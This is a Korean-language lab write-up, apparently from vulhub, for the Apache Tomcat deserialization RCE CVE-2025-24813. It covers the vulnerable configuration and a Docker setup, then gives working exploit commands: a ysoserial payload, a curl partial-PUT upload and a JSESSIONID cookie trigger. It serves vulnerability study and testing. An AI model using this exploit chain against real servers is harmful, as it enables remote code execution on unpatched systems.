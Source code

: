 # Tomcat 세션 역직렬화 원격 코드 실행 (CVE-2025-24813)

[中文版本(Chinese version)](README.zh-cn.md) [English version](README.md)

Apache Tomcat은 Java Servlet, JSP, EL, WebSocket 기술을 구현한 세계적으로 널리 사용되는 오픈소스 웹 애플리케이션 서버입니다.

Apache Tomcat에서는 11.0.0-M1에서 11.0.2까지, 10.1.0-M1에서 10.1.34까지, 9.0.0.M1에서 9.0.98까지 역직렬화 취약점이 발견되었습니다. 이는 Tomcat이 쓰기 가능한 DefaultServlet(읽기 전용=false)과 파일 기반 세션 지속성을 모두 갖춘 상태로 구성될 때 발생합니다. 이 조합을 통해 공격자는 서버에 임의의 파일을 작성하고 JSESSIONID 쿠키를 조작하여 이러한 파일의 역직렬화를 트리거하여 궁극적으로 원격 코드 실행으로 이어질 수 있습니다.

- <https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq>
- <https://github.com/charis3306/CVE-2025-24813>
- <https://forum.butian.net/article/674>

## 환경 구성

다음 명령을 실행하여 자바를 설치합니다.


다음 명령을 실행하여 취약한 Tomcat 9.0.97 서버를 시작합니다:

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2025-24813
docker compose up -d
```

컨테이너 실행 확인

```
docker compose ps
```
![image](https://github.com/user-attachments/assets/cf232c15-9e84-4ae6-8ef5-7c5be5b3b6f2)


서버가 시작된 후, 'http://your-ip:8080'을 방문하여 Tomcat 예제 페이지에 접속할 수 있습니다.

## 취약점 구현 방법

취약점은 Tomcat의 두 가지 주요 잘못된 구성으로 인해 발생합니다. 첫째, DefaultServlet은 readonly=false로 구성되어 파일 업로드가 가능합니다:

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

둘째, Tomcat은 파일 기반 세션 지속성을 사용하도록 구성되어 있습니다.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

두 구성 모두 동일한 기본 저장 경로를 사용합니다: '$CATALINA_BASE/work/Catalina/localhost/ROOT'.

부분 PUT 요청을 보낼 때 Tomcat은 파일 경로의 경로 구분자(/)를 마침표(.)로 변환하고 파일을 세션 저장 디렉토리에 임시로 저장합니다. 특정 요청을 작성하여 이 디렉토리에 악성 직렬화된 개체를 작성할 수 있습니다.

이 취약점을 악용하려면 먼저 Content-Range 헤더와 함께 부분적인 PUT 요청을 보내 임시 디렉토리에 '.deserialize.session'이라는 파일을 작성하세요(저는 테스트 목적으로 Postman과 ysoserial을 사용합니다):

```
java -jar ysoserial.jar CommonsCollections5 "gnome-calculator" > payload.ser
```
우선 위 명령어를 이용해 ysoserial을 이용해 페이로드를 생성합니다. 

![image](https://github.com/user-attachments/assets/97088d45-5efb-4644-879f-92d6ae3be67f)

다음으로 아래 명령어를 입력해 악성 세션 파일을 업로드합니다.

```
FILESIZE=$(stat -c %s payload.ser)
curl -X PUT "http://localhost:8080/deserialize/session" \
  -H "Content-Range: bytes 0-$(($FILESIZE-1))/$FILESIZE" \
  --data-binary @payload.ser
```

이후 GET 요청으로 역직렬화 트리거합니다.

```
curl -v "http://localhost:8080/" -H "Cookie: JSESSIONID=.deserialize"

```
![image](https://github.com/user-attachments/assets/f0cd870c-4e15-4bab-905a-353045bf2b5b)

Tcpdump 명령어를 통해 DNS(53)을 모니터링하면 다음과 같은 결과를 확인할 수 있습니다.

![image](https://github.com/user-attachments/assets/c3466bac-9ccc-4498-b73f-e36ef7d0cb00)

실제 공격 시나리오에서는 "콘텐츠 역직렬화"가 웹 애플리케이션에 의해 역직렬화될 때 임의의 코드를 실행할 수 있는 악의적인 직렬화된 Java 객체로 대체될 것입니다.
